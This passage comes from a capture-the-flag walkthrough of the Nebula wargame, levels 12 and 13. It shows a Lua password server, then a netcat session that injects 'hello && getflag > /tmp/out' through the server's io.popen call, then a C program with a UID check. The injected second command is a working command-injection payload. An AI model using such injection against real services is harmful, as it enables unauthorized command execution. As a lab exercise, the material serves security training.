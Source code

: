     if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
      client:send("Better luck next time\n");
    else
      client:send("Congrats, your token is 413**CARRIER LOST**\n")
    end

  end

  client:close()
end
{{< / highlight >}}

So we need to connect to the localhost on port 50001 and enter the correct password. the password is whatever the hash is in plain text. But even if we get it right you can see that we don't get our token. With a specially crafted password however, we can make use of the `io.popen` call.

{{< highlight console >}}
level12@nebula:/home/flag12$ nc localhost 50001
Password: hello && getflag > /tmp/out
Better luck next time
level12@nebula:/home/flag12$ cat /tmp/out
You have successfully executed getflag on a target account
{{< / highlight >}}

## Level 13 ##

> There is a security check that prevents the program from continuing execution if the user invoking it does not match a specific user id. 

{{< highlight C >}}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
    printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
    printf("The system administrators will be notified of this violation\n");
    exit(EXIT_FAILURE);
  }

  // snip, sorry :)

  printf("your token is %s\n", token);
  
}
{{< / highlight >}}
